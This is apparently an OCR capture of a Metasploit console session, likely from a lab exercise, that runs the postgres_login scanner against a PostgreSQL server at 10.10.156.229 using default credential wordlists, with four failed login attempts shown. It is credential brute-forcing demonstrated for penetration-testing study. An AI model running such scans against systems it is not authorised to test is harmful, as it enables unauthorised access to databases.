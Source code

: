 ```bash
msf6 > use auxiliary/scanner/postgres/postgres_login
msf6 auxiliary(scanner/postgres/postgres_login) > options

Module options (auxiliary/scanner/postgres/postgres_login):

   Name              Current Setting                                   Required  Description
   ----              ---------------                                   --------  -----------
   BLANK_PASSWORDS   false                                             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                 yes       How fast to bruteforce, from 0 to 5
   DATABASE          template1                                         yes       The database to authenticate against
   DB_ALL_CREDS      false                                             no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                             no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                             no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                              no        Skip existing credentials stored in the current database (Accepted: none, user, user&real
                                                                                 m)
   PASSWORD                                                            no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/p  no        File containing passwords, one per line
                     ostgres_default_pass.txt
   Proxies                                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RETURN_ROWSET     true                                              no        Set to true to see query result sets
   RHOSTS                                                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                                                                 oit
   RPORT             5432                                              yes       The target port
   STOP_ON_SUCCESS   false                                             yes       Stop guessing when a credential works for a host
   THREADS           1                                                 yes       The number of concurrent threads (max one per host)
   USERNAME                                                            no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/p  no        File containing (space-separated) users and passwords, one pair per line
                     ostgres_default_userpass.txt
   USER_AS_PASS      false                                             no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/p  no        File containing users, one per line
                     ostgres_default_user.txt
   VERBOSE           true                                              yes       Whether to print output for all attempts

msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 10.10.156.229
RHOSTS => 10.10.156.229
msf6 auxiliary(scanner/postgres/postgres_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.10.156.229:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.156.229:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
```